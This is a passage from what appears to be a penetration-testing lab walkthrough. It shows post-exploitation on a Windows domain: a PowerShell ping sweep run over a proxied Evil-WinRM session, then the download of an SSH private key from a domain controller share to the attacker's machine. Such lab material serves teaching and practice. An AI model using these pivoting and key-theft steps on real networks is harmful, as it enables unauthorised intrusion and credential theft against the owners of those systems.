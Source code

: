```shell-session
   NetBIOS over Tcpip. . . . . . . . : Enabled

Ethernet adapter Ethernet1:

   Connection-specific DNS Suffix  . :
   Description . . . . . . . . . . . : vmxnet3 Ethernet Adapter #2
   Physical Address. . . . . . . . . : 00-50-56-B9-3A-88
   DHCP Enabled. . . . . . . . . . . : No
   Autoconfiguration Enabled . . . . : Yes
   Link-local IPv6 Address . . . . . : fe80::ad24:d126:19f:f31d%7(Preferred)
   IPv4 Address. . . . . . . . . . . : 172.16.9.3(Preferred)
   Subnet Mask . . . . . . . . . . . : 255.255.0.0
   Default Gateway . . . . . . . . . : 172.16.9.1
   DHCPv6 IAID . . . . . . . . . . . : 167792726
   DHCPv6 Client DUID. . . . . . . . : 00-01-00-01-2A-29-62-C9-00-50-56-B9-16-51
   DNS Servers . . . . . . . . . . . : ::1
                                       127.0.0.1
   NetBIOS over Tcpip. . . . . . . . : Enabled
```

Typing `arp -a` to view the arp table does not yield anything interesting. We can use PowerShell to perform a ping sweep and attempt to identify live hosts.

Post-Exploitation

```shell-session
*Evil-WinRM* PS C:\Department Shares\IT\Private\Networking>  1..100 | % {"172.16.9.$($_): $(Test-Connection -count 1 -comp 172.16.9.$($_) -quiet)"}

|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.3:5985-<><>-OK
|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.3:5985-<><>-OK
172.16.9.1: False
172.16.9.2: False
172.16.9.3: True
172.16.9.4: False

<SNIP>

172.16.9.24: False
172.16.9.25: True
172.16.9.26: False
172.16.9.27: False

<SNIP>
```

We can see one live host, `172.16.9.25`, that perhaps one of the SSH private keys will work against. Let's get to work. First download the SSH keys via our `evil-winrm` connection to the Domain Controller.

Post-Exploitation

```shell-session
Evil-WinRM* PS C:\Department Shares\IT\Private\Networking> download "C:\Department Shares\IT\Private\Networking\ssmallsadm-id_rsa" /tmp/ssmallsadm-id_rsa 

Info: Downloading C:\Department Shares\IT\Private\Networking\ssmallsadm-id_rsa to /tmp/ssmallsadm-id_rsa

|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.3:5985-<><>-OK
|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.3:5985-<><>-OK
                                                             
Info: Download successful!

*Evil-WinRM* PS C:\Department Shares\IT\Private\Networking> 
```
